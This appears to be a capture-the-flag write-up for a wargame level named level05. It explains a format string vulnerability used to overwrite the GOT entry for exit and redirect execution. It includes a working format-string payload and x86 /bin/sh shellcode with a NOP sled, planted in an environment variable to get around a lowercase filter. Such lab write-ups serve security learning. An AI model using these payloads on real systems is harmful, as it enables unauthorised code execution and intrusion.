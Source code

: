 # Level05

## Vulnerability type:

Format String Vulnerability, Return-to-Libc (RET2LIBC)

## Walkthrough:

The program has a Format String Vulnerability, and it also calls the `exit` function. We can use this to our advantage by modifying the Global Offset Table (GOT) entry for `exit` to redirect program flow.

The issue here is that the program is applying a `to_lowercase` function on the buffer and it impacts the shell code we injected.

To bypass that, need to store the shellcode inside an environment variable and access it from the program. By using the `env -i` command (start with empty env) and a NOP sled, we increase our chances to reach the shellcode.

## Payload:

### Format string vuln. exploit

```bash
python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56942x %10$n" + "%8593x %11$n"' > /tmp/05
```

### Shellcode injection

```bash
$ cat /tmp/05 - | env -i SHELLCODE=$(python -c "print('\x90' * 420 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')") ./level05
```
